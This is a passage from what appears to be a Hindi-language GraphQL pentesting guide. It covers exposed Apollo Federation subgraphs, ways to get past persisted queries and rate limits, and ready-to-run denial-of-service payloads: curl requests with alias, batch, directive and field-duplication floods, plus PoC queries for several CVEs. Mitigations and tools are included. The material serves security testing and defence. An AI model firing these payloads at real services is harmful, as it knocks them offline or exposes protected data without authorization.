`Book`, `book` और ID को target schema के नामों और values से बदलें। अगर direct lookup access अस्वीकार करता है, लेकिन उसी principal के लिए `node` protected object या fields लौटा देता है, तो alternate resolver में authorization gap है। केवल `node` field का काम करना अपेक्षित व्यवहार है, कोई finding नहीं। Object-level authorization की सामान्य जाँच के लिए [IDOR/BOLA](../../pentesting-web/idor.md) देखें।<sup>[[28]](#references)[[29]](#references)</sup>

## Apollo Federation subgraphs उजागर (`_service { sdl }` और `_entities`)

**Apollo Federation** में, एक public **router** (या gateway) client queries प्राप्त करता है और उन्हें कई internal GraphQL services के बीच बाँटता है, जिन्हें **subgraphs** कहा जाता है। Subgraph libraries अपने-आप विशेष root fields जोड़ती हैं, जिनका उपयोग केवल router द्वारा किया जाना चाहिए। `_service` हमेशा मौजूद होता है, और `_entities` तब मौजूद होता है जब subgraph कम-से-कम एक entity type (ऐसा type जिसमें `@key` हो) परिभाषित करता है:<sup>[[23]](#references)</sup>

```graphql
type _Service { sdl: String! }
extend type Query {
  _entities(representations: [_Any!]!): [_Entity]!
  _service: _Service!
}
```

- `_service { sdl }` subgraph का पूरा SDL लौटाता है। Apollo के अनुसार, यह एक standard introspection query जितनी जानकारी उजागर करता है, और spec कहती है कि subgraph द्वारा "introspection disable" किए जाने पर भी यह उपलब्ध रहता है।<sup>[[23]](#references)[[24]](#references)</sup>
- `_entities` **representations** की एक सूची (किसी entity के `__typename` और `@key` fields वाले JSON objects, उदाहरण के लिए `{"__typename":"User","id":"1"}`) प्राप्त करता है और उससे मेल खाने वाले objects लौटाता है। Router इसका उपयोग उन fields को fetch करने के लिए करता है जिनका स्वामित्व subgraph के पास है।<sup>[[23]](#references)</sup> Apollo चेतावनी देता है कि यदि यह field सार्वजनिक रूप से उपलब्ध हो:

> कोई भी client router की नकल करके internal resolver logic को bypass कर सकता है और किसी भी entity का data fetch कर सकता है।<sup>[[24]](#references)</sup>

यह vulnerability क्यों बनती है: router को security enforcement point (access control, demand control, operation safelisting) के रूप में configure किया जा सकता है। उदाहरण के लिए, GraphOS Router `@authenticated` और `@requiresScopes` directives का मूल्यांकन करता है और query plan करने से पहले unauthorized fields हटा देता है (`@apollo/gateway` इन directives को support नहीं करता)।<sup>[[26]](#references)[[27]](#references)</sup> यदि किसी subgraph तक सीधे पहुँचा जा सकता है (public hostname, exposed port, staging service, या ऐसा internal network जहाँ आपकी पहले से पहुँच हो), तो router की जाँचें bypass हो जाती हैं। Attacker subgraph schema पढ़ सकता है और `_entities` को सीधे query कर सकता है; data exposure इस बात पर निर्भर करता है कि subgraph अपने resolvers में भी authorization लागू करता है या नहीं।<sup>[[25]](#references)[[27]](#references)</sup>

जाँच कैसे करें:

1. SDL query को main endpoint और आपके द्वारा खोजी गई हर GraphQL service (अन्य subdomains, ports, internal जैसे दिखने वाले hosts) पर भेजें:<sup>[[25]](#references)</sup>

```http
POST /graphql HTTP/1.1
Host: subgraph.target.example
Content-Type: application/json

{"query":"query{_service{sdl}}","operationName":null}
```

2. यदि SDL वापस मिलता है, तो `@key` वाले types खोजें (उदाहरण के लिए `type User @key(fields: "id")`) और उन entities को request करें जिन्हें आपको नहीं देखना चाहिए। Return type `_Entity` union है, इसलिए inline fragment का उपयोग करें:<sup>[[23]](#references)</sup>

```graphql
query {
  _entities(representations: [{__typename: "User", id: "1"}]) {
    ... on User { id email }
  }
}
```

3. उसी data की तुलना router के माध्यम से unauthenticated या कम-privileged user के रूप में अनुरोध करके करें। Direct SDL response एक reachable subgraph की पुष्टि करता है; authorization bypass तभी साबित होता है जब protected entity data router की checks या subgraph में equivalent checks के बिना लौटाया जाए। Subgraph के responses में `extensions` के अंदर field-level tracing data भी हो सकता है, जिससे service names, implementation details और timings leak हो सकते हैं।<sup>[[24]](#references)[[25]](#references)</sup>

`_service` field composed supergraph schema का हिस्सा नहीं है, इसलिए कोई public endpoint जो `_service { sdl }` का जवाब देता है, संभवतः router के बजाय सीधे subgraph तक पहुँच रहा है।<sup>[[23]](#references)</sup> इसका समाधान है कि subgraphs को केवल router से reachable बनाया जाए (network allowlist, mTLS), और वैकल्पिक रूप से server plugins या middleware के ज़रिए subgraph level पर `_service` और `_entities` को filter किया जाए।<sup>[[25]](#references)[[27]](#references)</sup>

## Persisted queries / APQ सुरक्षा सीमा **नहीं** हैं

Blue-team की एक आम धारणा है कि **Automatic Persisted Queries (APQ)** arbitrary GraphQL को server तक पहुँचने से रोकते हैं, क्योंकि clients आम तौर पर केवल SHA-256 hash भेजते हैं। व्यवहार में, APQ मुख्यतः **bandwidth/latency optimization** है, safelist नहीं:<sup>[[12]](#references)</sup>

1. केवल hash और `extensions.persistedQuery` भेजें
2. अगर server `PersistedQueryNotFound` के साथ जवाब देता है, तो वही request **पूरी `query` string के साथ** दोबारा भेजें
3. कई Apollo-style deployments इसे execute करेंगे और बाद की requests के लिए उस operation को cache कर लेंगे

इसका मतलब है कि अगर target ने केवल APQ enabled किया है, तो आप अक्सर पहली request पर भी **नई introspection queries, aliases, deep fragments या brute-force mutations** submit कर सकते हैं। असली safelisting के लिए आम तौर पर **पहले से registered persisted-query list** और raw operation strings को reject करना ज़रूरी होता है।

```json
{
  "operationName": "probe",
  "variables": null,
  "extensions": {
    "persistedQuery": {
      "version": 1,
      "sha256Hash": "<unknown-hash>"
    }
  }
}
```

यदि response में `PersistedQueryNotFound` शामिल हो, तो तुरंत पूरा `query` field जोड़कर फिर से प्रयास करें। यह भी ध्यान दें कि कुछ clients केवल hash वाले APQ requests के लिए **GET** का उपयोग करते हैं और hash न मिलने पर ही पूर्ण query पर fallback करते हैं। इसलिए, केवल hash वाले path के आधार पर बनाए गए WAF या cache rules खतरनाक request को पहचानने में चूक सकते हैं।

## GraphQL में Aliases का उपयोग करके Rate Limits को Bypass करना

GraphQL में aliases एक शक्तिशाली सुविधा है, जो API request करते समय properties को स्पष्ट रूप से **नाम देने** की अनुमति देती है। यह क्षमता एक ही request में एक ही प्रकार के object के **कई instances** प्राप्त करने के लिए विशेष रूप से उपयोगी है। Aliases का उपयोग उस सीमा को पार करने के लिए किया जा सकता है, जो GraphQL objects में एक ही नाम की कई properties होने से रोकती है।

GraphQL aliases को विस्तार से समझने के लिए, इस resource की सिफारिश की जाती है: [Aliases](https://portswigger.net/web-security/graphql/what-is-graphql#aliases).

हालाँकि aliases का मुख्य उद्देश्य कई API calls की आवश्यकता को कम करना है, लेकिन एक अनपेक्षित उपयोग सामने आया है: aliases का लाभ उठाकर GraphQL endpoint पर brute force attacks किए जा सकते हैं। ऐसा इसलिए संभव है क्योंकि कुछ endpoints पर brute force attacks को रोकने के लिए rate limiters लगाए जाते हैं, जो **HTTP requests की संख्या** सीमित करते हैं। हालाँकि, ये rate limiters हर request के भीतर operations की संख्या पर ध्यान नहीं देते होंगे। चूँकि aliases एक ही HTTP request में कई queries शामिल करने की अनुमति देते हैं, इसलिए इनका उपयोग ऐसी rate limiting measures को bypass करने के लिए किया जा सकता है।

नीचे दिया गया उदाहरण दिखाता है कि aliased queries का उपयोग करके store discount codes की वैधता कैसे जाँची जा सकती है। यह तरीका rate limiting को bypass कर सकता है, क्योंकि इसमें कई queries को एक HTTP request में शामिल किया जाता है और इस तरह एक साथ कई discount codes की जाँच संभव हो सकती है।

```bash
# Example of a request utilizing aliased queries to check for valid discount codes
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

## GraphQL में DoS

Application-Layer DoS की अन्य जाँचों (page sizes, paid actions, hash collisions) के लिए [Application-Layer DoS](../../pentesting-web/application-layer-dos.md) देखें।

### Alias Overloading

**Alias Overloading** एक GraphQL vulnerability है, जिसमें attackers किसी query में एक ही field के कई aliases जोड़ देते हैं, जिससे backend resolver उस field को बार-बार execute करता है। इससे server resources पर अत्यधिक दबाव पड़ सकता है और **Denial of Service (DoS)** हो सकता है। उदाहरण के लिए, नीचे दी गई query में एक ही field (`expensiveField`) को aliases का उपयोग करके 1,000 बार request किया गया है, जिससे backend उसे 1,000 बार compute करने के लिए मजबूर होता है और CPU या memory समाप्त हो सकती है:

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "Content-Type: application/json" \
    -d '{"query": "{ alias0:__typename \nalias1:__typename \nalias2:__typename \nalias3:__typename \nalias4:__typename \nalias5:__typename \nalias6:__typename \nalias7:__typename \nalias8:__typename \nalias9:__typename \nalias10:__typename \nalias11:__typename \nalias12:__typename \nalias13:__typename \nalias14:__typename \nalias15:__typename \nalias16:__typename \nalias17:__typename \nalias18:__typename \nalias19:__typename \nalias20:__typename \nalias21:__typename \nalias22:__typename \nalias23:__typename \nalias24:__typename \nalias25:__typename \nalias26:__typename \nalias27:__typename \nalias28:__typename \nalias29:__typename \nalias30:__typename \nalias31:__typename \nalias32:__typename \nalias33:__typename \nalias34:__typename \nalias35:__typename \nalias36:__typename \nalias37:__typename \nalias38:__typename \nalias39:__typename \nalias40:__typename \nalias41:__typename \nalias42:__typename \nalias43:__typename \nalias44:__typename \nalias45:__typename \nalias46:__typename \nalias47:__typename \nalias48:__typename \nalias49:__typename \nalias50:__typename \nalias51:__typename \nalias52:__typename \nalias53:__typename \nalias54:__typename \nalias55:__typename \nalias56:__typename \nalias57:__typename \nalias58:__typename \nalias59:__typename \nalias60:__typename \nalias61:__typename \nalias62:__typename \nalias63:__typename \nalias64:__typename \nalias65:__typename \nalias66:__typename \nalias67:__typename \nalias68:__typename \nalias69:__typename \nalias70:__typename \nalias71:__typename \nalias72:__typename \nalias73:__typename \nalias74:__typename \nalias75:__typename \nalias76:__typename \nalias77:__typename \nalias78:__typename \nalias79:__typename \nalias80:__typename \nalias81:__typename \nalias82:__typename \nalias83:__typename \nalias84:__typename \nalias85:__typename \nalias86:__typename \nalias87:__typename \nalias88:__typename \nalias89:__typename \nalias90:__typename \nalias91:__typename \nalias92:__typename \nalias93:__typename \nalias94:__typename \nalias95:__typename \nalias96:__typename \nalias97:__typename \nalias98:__typename \nalias99:__typename \nalias100:__typename \n }"}' \
    'https://example.com/graphql'
```

इसे कम करने के लिए, संसाधनों के दुरुपयोग को रोकने हेतु alias count limits, query complexity analysis या rate limiting लागू करें।

### **Array-based Query Batching**

**Array-based Query Batching** एक vulnerability है, जिसमें GraphQL API एक ही request में कई queries को batch करने की अनुमति देता है। इससे attacker एक साथ बड़ी संख्या में queries भेज सकता है। सभी batched queries को parallel में execute करने से backend पर अत्यधिक load पड़ सकता है, जिससे बहुत अधिक resources (CPU, memory, database connections) खर्च होते हैं और **Denial of Service (DoS)** हो सकता है। अगर batch में queries की संख्या पर कोई limit न हो, तो attacker इसका फायदा उठाकर service availability को कम कर सकता है।

```graphql
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '[{"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}, {"query": "query cop { __typename }"}]' \
'https://example.com/graphql'
```

इस उदाहरण में, 10 अलग-अलग queries को एक request में batch किया जाता है, जिससे server उन सभी को एक साथ execute करने के लिए बाध्य होता है। यदि इसका exploit बड़े batch size या computational रूप से महंगे queries के साथ किया जाए, तो यह server को overload कर सकता है।

### **Directive Overloading Vulnerability**

**Directive Overloading** तब होता है जब GraphQL server अत्यधिक संख्या में, duplicated directives वाले queries की अनुमति देता है। इससे server का parser और executor overwhelmed हो सकता है, खासकर तब जब server बार-बार उसी directive logic को process करता हो। उचित validation या limits के बिना, attacker अनेक duplicate directives वाला query बनाकर इसका exploit कर सकता है और computational या memory usage को बहुत बढ़ा सकता है, जिससे **Denial of Service (DoS)** हो सकता है।

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @aa@aa@aa@aa@aa@aa@aa@aa@aa@aa }", "operationName": "cop"}' \
'https://example.com/graphql'
```

ध्यान दें कि पिछले उदाहरण में `@aa` एक custom directive है, जिसे **शायद घोषित न किया गया हो**। आमतौर पर मौजूद रहने वाला एक सामान्य directive **`@include`** है:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "query cop { __typename @include(if: true) @include(if: true) @include(if: true) @include(if: true) @include(if: true) }", "operationName": "cop"}' \
'https://example.com/graphql'
```

आप सभी घोषित directives का पता लगाने के लिए एक introspection query भी भेज सकते हैं:

```bash
curl -X POST \
-H "Content-Type: application/json" \
-d '{"query": "{ __schema { directives { name locations args { name type { name kind ofType { name } } } } } }"}' \
'https://example.com/graphql'
```

और फिर कुछ custom ones का उपयोग करें।

### **Field Duplication Vulnerability**

**Field Duplication** एक vulnerability है जिसमें GraphQL server, एक ही field को बार-बार दोहराने वाली queries की अनुमति देता है। इससे server हर instance के लिए field को बार-बार resolve करता है, जिससे काफी resources (CPU, memory और database calls) खर्च होते हैं। Attacker सैकड़ों या हज़ारों दोहराए गए fields वाली queries तैयार कर सकता है, जिससे server पर भारी load पड़ सकता है और **Denial of Service (DoS)** हो सकता है।

```bash
# Test provided by https://github.com/dolevf/graphql-cop
curl -X POST -H "User-Agent: graphql-cop/1.13" -H "Content-Type: application/json" \
-d '{"query": "query cop { __typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n__typename \n} ", "operationName": "cop"}' \
'https://example.com/graphql'
```

## हाल की Vulnerabilities (2023-2025)

> GraphQL ecosystem बहुत तेज़ी से विकसित होता है; पिछले दो वर्षों में सबसे ज़्यादा उपयोग की जाने वाली server libraries में कई गंभीर समस्याएँ सामने आई हैं। इसलिए जब आपको कोई GraphQL endpoint मिले, तो engine की fingerprinting (देखें **graphw00f**) करना और चल रहे version की नीचे दी गई vulnerabilities से जाँच करना उपयोगी है।

### CVE-2024-47614 – `async-graphql` directive-overload DoS (Rust)
* प्रभावित: async-graphql < **7.0.10** (Rust)
* मूल कारण: **duplicated directives** (जैसे हज़ारों `@include`) पर कोई सीमा नहीं है, जिन्हें execution nodes की एक exponential संख्या में expand किया जाता है।
* प्रभाव: एक HTTP request CPU/RAM का उपयोग पूरी तरह ख़त्म करके service को crash कर सकती है।
* समाधान/बचाव: ≥ 7.0.10 पर upgrade करें या `SchemaBuilder.limit_directives()` call करें; वैकल्पिक रूप से requests को `"@include.*@include.*@include"` जैसे WAF rule से filter करें।<sup>[[7]](#references)</sup>

```graphql
# PoC – repeat @include X times
query overload {
  __typename @include(if:true) @include(if:true) @include(if:true)
}
```

### CVE-2024-40094 – `graphql-java` ENF depth/complexity bypass
* प्रभावित: graphql-java < 19.11, 20.0-20.8, 21.0-21.4
* मूल कारण: **ExecutableNormalizedFields** को `MaxQueryDepth` / `MaxQueryComplexity` instrumentation में शामिल नहीं किया गया था। इसलिए recursive fragments सभी limits को bypass कर सकते थे।
* प्रभाव: graphql-java को embed करने वाले Java stacks (Spring Boot, Netflix DGS, Atlassian products…) पर बिना authentication के DoS।

```graphql
fragment A on Query { ...B }
fragment B on Query { ...A }
query { ...A }
```

### CVE-2023-23684 – WPGraphQL SSRF से RCE chain
* प्रभावित: WPGraphQL ≤ 1.14.5 (WordPress plugin).
* मूल कारण: `createMediaItem` mutation attacker-controlled **`filePath` URLs** स्वीकार करता था, जिससे internal network access और file writes संभव थे।
* प्रभाव: authenticated Editors/Authors metadata endpoints तक पहुँच सकते थे या remote code execution के लिए PHP files लिख सकते थे।

### CVE-2025-32031 – Apollo Gateway query-planner fragment fan-out DoS
* प्रभावित: `@apollo/gateway` < **2.10.1**
* मूल कारण: **गहराई से nested और बड़े पैमाने पर दोबारा इस्तेमाल किए गए named fragments** internal query-planner optimizations को bypass कर सकते हैं, इसलिए gateway subgraphs तक request पहुँचने से पहले ही उसे **plan** करने में अपना ज़्यादातर CPU time खर्च करता है।
* प्रभाव: कुछ unauthenticated requests भी **federated gateway** को unresponsive बना सकती हैं, भले ही subgraphs पर resolver depth/complexity checks ठीक दिखें।
* परीक्षण संकेत: black-box tests में, subgraph traffic लगभग न के बराबर होने के बावजूद high latency / gateway CPU spikes पर ध्यान दें। bottleneck planner है, resolver नहीं।

```graphql
fragment F2 on Query { __typename }
fragment F1 on Query { ...F2 ...F2 }
fragment F0 on Query { ...F1 ...F1 }
query { ...F0 }
```

---

## Incremental delivery का दुरुपयोग: `@defer` / `@stream`
2023 से, अधिकांश प्रमुख servers (Apollo 4, GraphQL-Java 20+, HotChocolate 13) ने GraphQL-over-HTTP WG द्वारा परिभाषित **incremental delivery** directives लागू किए। हर deferred patch को **अलग chunk** के रूप में भेजा जाता है, इसलिए कुल response size *N + 1* (envelope + patches) हो जाता है। ऐसा query जिसमें हज़ारों छोटे deferred fields हों, बड़ा response उत्पन्न करता है, जबकि attacker को केवल एक request करनी पड़ती है — यह एक पारंपरिक **amplification DoS** है और body-size WAF rules को bypass करने का एक तरीका है, जो केवल पहले chunk की जाँच करते हैं। WG के सदस्यों ने भी इस जोखिम को चिह्नित किया है।

2 000 patches उत्पन्न करने वाला उदाहरण payload:

```graphql
query abuse {
% for i in range(0,2000):
  f{{i}}: __typename @defer
% endfor
}
```

Mitigation: production में `@defer/@stream` disable करें या `max_patches`, कुल `max_bytes` और execution time लागू करें। **graphql-armor** जैसी libraries (नीचे देखें) पहले से ही उचित defaults लागू करती हैं।

---

## रक्षात्मक middleware (2024+)

| Project | Notes |
|---|---|
| **graphql-armor** | Escape Tech द्वारा प्रकाशित Node/TypeScript validation middleware। Query depth, alias/field/directive counts, tokens और cost के लिए plug-and-play limits लागू करता है; Apollo Server, GraphQL Yoga/Envelop, Helix आदि के साथ compatible है। |

त्वरित शुरुआत:

```ts
import { protect } from '@escape.tech/graphql-armor';
import { applyMiddleware } from 'graphql-middleware';

const protectedSchema = applyMiddleware(schema, ...protect());
```

`graphql-armor` अब अत्यधिक गहरी, जटिल या directives से भरी queries को block करेगा, और ऊपर दिए गए CVEs से सुरक्षा देगा।<sup>[[8]](#references)</sup>

---

## Tools

### Vulnerability scanners

- [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop): graphql endpoints की सामान्य misconfigurations की जाँच करता है
- [https://github.com/assetnote/batchql](https://github.com/assetnote/batchql): GraphQL batch queries और mutations करने पर केंद्रित GraphQL security auditing script।
- [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f): उपयोग किए जा रहे graphql की fingerprinting करता है
- [https://github.com/gsmith257-cyber/GraphCrawler](https://github.com/gsmith257-cyber/GraphCrawler): schemas प्राप्त करने और sensitive data खोजने, authorization की जाँच करने, schemas को brute force करने और किसी दिए गए type तक पहुँचने के paths खोजने के लिए उपयोग किया जा सकने वाला Toolkit।
- [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html): इसे standalone या [Burp extension](https://github.com/doyensec/inql) के रूप में उपयोग किया जा सकता है।
- [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap): हमलों को automate करने के लिए CLI client के रूप में भी उपयोग किया जा सकता है: `python3 graphqlmap.py -u http://example.com/graphql --inject`
- [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum): ऐसा Tool जो **किसी GraphQL schema में दिए गए type तक पहुँचने के अलग-अलग तरीके** सूचीबद्ध करता है।
- [https://github.com/doyensec/GQLSpection](https://github.com/doyensec/GQLSpection): InQL के Standalone और CLI Modes का successor
- [https://github.com/doyensec/inql](https://github.com/doyensec/inql): advanced GraphQL testing के लिए Burp extension या python script। _**Scanner**_ InQL v5.0 का मुख्य हिस्सा है, जहाँ आप GraphQL endpoint या local introspection schema file का विश्लेषण कर सकते हैं। यह सभी संभावित queries और mutations अपने-आप generate करता है और उन्हें आपके विश्लेषण के लिए एक structured view में व्यवस्थित करता है। _**Attacker**_ component आपको batch GraphQL attacks चलाने देता है, जो खराब तरीके से लागू किए गए rate limits को bypass करने में उपयोगी हो सकते हैं: `python3 inql.py -t http://example.com/graphql -o output.json`
- [https://github.com/nikitastupin/clairvoyance](https://github.com/nikitastupin/clairvoyance): कुछ Graphql databases की मदद से schema प्राप्त करने की कोशिश करता है, भले ही introspection disabled हो; ये databases mutations और parameters के नाम सुझाते हैं।

### सामान्य vulnerabilities exploit करने की scripts

- [https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS](https://github.com/reycotallo98/pentestScripts/tree/main/GraphQLDoS): vulnerable graphql environments में denial-of-service vulnerabilities exploit करने वाली scripts का संग्रह।

### Clients

- [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql): GUI client
- [https://altair.sirmuel.design/](https://altair.sirmuel.design/): GUI client

### Automatic Tests

{{#ref}}
https://graphql-dashboard.herokuapp.com/
{{#endref}}

- AutoGraphQL समझाने वाला Video: [https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

## References

- [1] [GraphQL के व्यावहारिक attack vectors](https://jondow.eu/practical-graphql-attack-vectors/)
- [2] [GraphQL — सामान्य vulnerabilities और उनका exploit करने का तरीका](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
- [3] [GraphQL Security के बारे में सब कुछ, GraphQL बनाम REST API model](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
- [4] [API Hacking: GraphQL](http://ghostlulz.com/api-hacking-graphql/)
- [5] [GraphQL Injection - PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
- [6] [GraphQL API vulnerabilities - PortSwigger](https://portswigger.net/web-security/graphql)
- [7] [async-graphql directive overload Denial of Service (GHSA-5gc2-7c65-8fq8 / CVE-2024-47614)](https://github.com/advisories/GHSA-5gc2-7c65-8fq8)
- [8] [GraphQL Armor](https://github.com/escape-tech/graphql-armor)
- [9] [InQL v6.1.0 नए features और contribution swag के साथ उपलब्ध!](https://blog.doyensec.com/2025/12/02/inql-v610.html)
- [10] [GraphQL Threat Matrix](https://github.com/nicholasaleks/graphql-threat-matrix)
- [11] [File Uploads - GraphQL](https://graphql.org/learn/file-uploads/)
- [12] [Persisted Queries - Apollo GraphOS Docs](https://www.apollographql.com/docs/graphos/platform/security/persisted-queries)
- [13] [हमने Google A.I. को $50,000 के लिए hack किया](https://www.landh.tech/blog/20240304-google-hack-50000/)
- [14] [GraphQL Batching Attack](https://lab.wallarm.com/graphql-batching-attack/)
- [15] [Schema के बिना GraphQL Security Testing](https://blog.forcesunseen.com/graphql-security-testing-without-a-schema)
- [16] [NahamCon2024: GraphQL नया PHP है | @0xlupin](https://www.youtube.com/watch?v=tIo_t5uUK50)
- [17] [वह एक GraphQL issue जिसे आप बार-बार चूक जाते हैं](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)
- [18] [GraphQL Query Authentication Bypass Vuln](https://s1n1st3r.gitbook.io/theb10g/graphql-query-authentication-bypass-vuln)
- [19] [HackerOne Report #792927 - GraphQL query variables के ज़रिए sensitive account details leak](https://hackerone.com/reports/792927)
- [20] [graphql.org - GraphQL: APIs के लिए एक query language](https://graphql.org/learn/introspection)
- [21] [GraphQL over HTTP specification](https://graphql.github.io/graphql-over-http/draft/)
- [22] [SameSite cookies की व्याख्या](https://web.dev/articles/samesite-cookies-explained)
- [23] [Apollo Federation Subgraph Specification](https://www.apollographql.com/docs/graphos/schema-design/federated-schemas/reference/subgraph-spec)
- [24] [Apollo GraphQL Docs - Graph Security](https://www.apollographql.com/docs/graphos/platform/security/overview)
- [25] [RunSybil - Introspection से आगे: साफ़ नज़र आने वाली जगह में छिपा Apollo Federation attack surface](https://www.runsybil.com/blog/graphql-apollo-federation-attack-hidden-in-plain-sight)
- [26] [Apollo GraphQL Docs - GraphOS Router में Authorization](https://www.apollographql.com/docs/graphos/routing/security/authorization)
- [27] [Apollo GraphQL Blog - Apollo Federation Subgraphs को सुरक्षित करना: Context और Best Practices](https://www.apollographql.com/blog/securing-apollo-federation-subgraphs-context-and-best-practices)
- [28] [Global Object Identification - GraphQL](https://graphql.org/learn/global-object-identification/)
- [29] [GraphQL query operations security को bypass किया जा सकता है - API Platform advisory](https://github.com/advisories/GHSA-cg3c-245w-728m)
- [30] [graphql-cop security checks](https://github.com/dolevf/graphql-cop)
{{#include ../../banners/hacktricks-training.md}}
